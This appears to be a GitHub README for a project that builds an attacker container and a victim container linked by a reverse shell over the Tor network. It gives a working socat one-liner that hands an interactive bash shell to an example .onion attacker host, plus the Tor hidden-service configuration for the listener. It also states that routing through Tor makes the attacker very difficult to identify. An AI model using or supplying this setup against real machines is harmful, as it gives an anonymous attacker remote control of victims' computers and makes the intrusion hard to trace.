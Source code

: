 <div align="center">
<img src="https://img.shields.io/badge/docker-%230db7ed.svg?style=for-the-badge&logo=docker&logoColor=white" alt="docker" />

<img src="https://img.shields.io/badge/tor-%237E4798.svg?style=for-the-badge&logo=tor-project&logoColor=white" alt="tor-web-server"/>

<img src="https://img.shields.io/badge/Ubuntu-E95420?style=for-the-badge&logo=ubuntu&logoColor=white" alt="ubuntu-linux"/>

<img src="" alt=""/>

</div>
<br/>
<br/>

## **💁 What is shell ?**

We can define a shell as a link between the system and the user. We can say that the shell has the purpose of interpreting commands, transmitting the results to the system and returning the results. Various types of shell interpreters on Unix/Linux systems, the most common being sh , bash , csh , Tcsh , ksh , and zsh.

## **🤔 What is reverse shell ?**

It is a technique used to send commands from a shell remotely through a port and thus allows the attacker to open a listening port on your server to receive connections from other machines, thus allowing control over them.

<p align="center">
<img src="./assets/rshell-example.png" alt="reverse-shell" />
</p>

With access to a compromised machine, the attacker will be able to escalate privileges to gain administrative access to the system.

## **💻 Project**

We created **_two containers_** in isolation that communicate with the **_Tor network_** forming a **_reverse shell_**. In this way, an attacker listens for connections from the Tor network while the victim's computer connects to the attacker.

<p align="center">
<img src="./assets/architecture.png" alt="architecture" width="700px"/>
</p>

To create the docker images we used [Ubuntu](https://ubuntu.com/) and installed [socat](https://linux.die.net/man/1/socat) and [tor](https://community.torproject.org/relay/setup/bridge/debian-ubuntu/) via apt-get as you can see in the dockerfiles.

## **🚀 Get Started**

First open a terminal instance and run the **_start_listen.sh_** script:

<p align="center">
<img src="./assets/listen-example.gif" alt="example-1"/>
</p>

Wait for Tor startup to reach 100%. Copy the script in yellow like the one generated in the image above.

Now open another instance of the terminal and run the **_start_rshell.sh_** script. After initialization, paste the script that was copied in the terminal and hit the enter key:

<p align="center">
<img src="./assets/rshell-example.gif" alt="example-2"/>
</p>

You can see that the attacker gets access to the victim computer.

## **📞 Client**

In order for the client to be able to make calls to the attacker, the rshell container needs to be on the tor network and execute the following command:

```bash
# example attacker host
ATTACKER_HOST=lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
ATTACKER_PORT=80

torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$ATTACKER_HOST:$ATTACKER_PORT
```

The **_torsocks_** command guarantees the the victim's ability to making calls to hosts on the Tor network.

## **🌐 Server**

To create the server on the Tor network we must include the file **_torrc_** in the directory **_/etc/tor/_** this way we will get a host on the Tor network.

```bash
# torrc example
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:80
```

After starting the **_listen_** container you can see the host created by running the command:

```bash
docker exec -it listen cat /var/lib/tor/hidden_service/hostname

# out example
lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
```

Every call the victim makes to host `lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion` will be redirected to the **_socat_** server which is listening locally on port 80.

## **💥 Considerations**

There are many ways to create a reverse shell as you can see [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). We use socat because it's easy to create a reverse shell with interactive PTY and autocomplete. I'm not a racker and I'm far from it. But some lamers out there make gigantic python scripts with interactive interfaces and lots of base 64 to do it. For a good lamer a sh terminal with busybox is enough. Using the Tor network to create a reverse shell makes it very difficult to identify the attacker. I could have used the **_alpine_** image instead of **_ubuntu_** to create the containers but there was a problem in socat and I was too lazy to do that.

## **📚 References**

- [Van Houser](https://github.com/vanhauser-thc?tab=repositories)
- [Hackers-cheats](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

## **👨‍🚀 Author**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 My contacts!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## **📝 License**

This project has an MIT [license](LICENSE.md).
